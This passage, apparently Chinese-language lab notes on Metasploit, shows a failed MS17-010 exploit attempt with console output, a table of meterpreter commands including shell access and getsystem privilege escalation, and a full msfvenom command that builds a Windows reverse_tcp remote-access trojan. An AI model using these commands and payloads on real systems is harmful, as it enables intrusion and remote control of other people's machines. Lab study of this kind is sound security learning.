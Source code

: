 > 连接超时

```sh
[*] Started reverse TCP handler on 192.168.126.128:4444 
[*] 192.168.2.178:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.2.178:445     - Rex::ConnectionTimeout: The connection with (192.168.2.178:445) timed out.
[*] 192.168.2.178:445     - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.2.178:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.
```

#### 容易出现的报错解决方案

1. 关闭`防火墙`
2. 设置`网络连接`在`共享网络连接`

### 使用meterpreter

| 命令       | 说明                                 |
| ---------- | ------------------------------------ |
| ps         | 列出进程                             |
| shell      | 打开cmd                              |
| powershell | 打开powershell                       |
| shutdown   | 关机 ：/s /t 0 ：立即关机   /r  重启 |
| getsystem  | 提权                                 |
| ifconfig   | 获取网络接口配置                     |

#### 问题

> 没有权限，没有解决

```sh
meterpreter > shutdown
Shutting down...
[-] stdapi_sys_power_exitwindows: Operation failed: 1314
```

### msfvenom生成远控木马

> 命令

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.126.128 -f exe -o demo.exe
```

![](https://s21.ax1x.com/2024/05/08/pkVdYPf.png)

> 生成的文件：payload.exe  （名字改了）

![](https://s21.ax1x.com/2024/05/09/pkVo5ge.png)
